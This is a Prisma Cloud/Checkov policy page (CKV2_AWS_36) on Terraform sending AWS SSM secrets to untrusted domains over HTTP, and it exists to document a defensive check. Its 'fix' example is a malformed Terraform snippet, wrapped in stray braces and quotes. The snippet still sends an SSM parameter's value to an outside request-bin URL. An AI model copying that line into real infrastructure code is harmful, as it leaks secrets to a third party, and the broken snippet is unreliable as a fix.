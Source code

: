 == AWS Terraform sends SSM secrets to untrusted domains over HTTP


=== Policy Details 

[width=45%]
[cols="1,1"]
|=== 
|Prisma Cloud Policy ID 
| 97cd3044-4e7e-40b2-9240-4410d7932d79

|Checkov Check ID 
| https://github.com/bridgecrewio/checkov/blob/main/checkov/terraform/checks/graph_checks/aws/HTTPNotSendingPasswords.yaml[CKV2_AWS_36]

|Severity
|LOW

|Subtype
|Build

|Frameworks
|Terraform

|=== 



=== Description 


Sending secrets such as passwords and encryption keys over an untrusted network or domain can increase the risk of those secrets being intercepted and compromised.
This is because the secrets may not be encrypted while in transit, making it easier for attackers to intercept and read them.
By ensuring that AWS Terraform does not send secrets to untrusted domains over HTTP, you can help protect the confidentiality of your secrets and reduce the risk of them being compromised.
Instead, you should use secure protocols such as HTTPS or SSL/TLS to transmit secrets, as these protocols can help protect the secrecy of the secrets in transit.

=== Fix - Buildtime


*Terraform* 




[source,go]
----
{
 "resource "aws_ssm_parameter" "param2" {
  name = var.parameter_name
  type = "String"
  value = "foo"
}


data "http" "nonleak2" {
  url = "https://enp840cyx28ip.x.pipedream.net/?id=${aws_ssm_parameter.param2.name}&content=${aws_ssm_parameter.param2.value}"
}",

}
----
----
